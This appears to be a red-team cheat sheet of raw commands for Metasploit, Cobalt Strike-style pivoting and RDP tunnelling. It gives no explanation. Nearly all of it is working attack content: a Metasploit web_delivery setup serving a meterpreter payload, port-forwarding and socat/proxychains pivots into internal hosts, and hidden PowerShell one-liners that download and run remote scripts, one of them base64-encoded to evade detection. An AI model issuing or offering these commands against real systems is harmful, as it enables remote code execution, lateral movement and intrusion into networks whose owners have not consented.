 
### Metasploit
```
portfwd add -R -p 8080 -L 192.168.100.166 -l 443
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 2
msf5 exploit(multi/script/web_delivery) > set SRVHOST 192.168.100.166
msf5 exploit(multi/script/web_delivery) > set SRVPORT 443
msf5 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/script/web_delivery) > set EXITFUNC thread
msf5 exploit(multi/script/web_delivery) > set URIPATH /msf.ps1
msf5 exploit(multi/script/web_delivery) > exploit -j
``

### CS
```
socks 1080

rportfwd 8080 192.168.100.166 443

proxychains socat TCP4-Listen:1433,fork TCP:10.10.120.20:1433

PS C:\Users\Commando> $OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('http://wkstn-1555:8080/a')"
PS C:\Users\Commando> [System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))

```

###RDP
```
socks 1337
proxychains socat TCP4-LISTEN:3389,fork TCP4:10.0.0.100:3389
 xfreerdp /v:127.0.0.1 -sec-nla /u:""
rportfwd 8080 178.62.56.134 80
powershell.exe -nop -w hidden -c iex ((new-object net.webclient).downloadstring('http://10.0.1.200:8080/smb'))


```

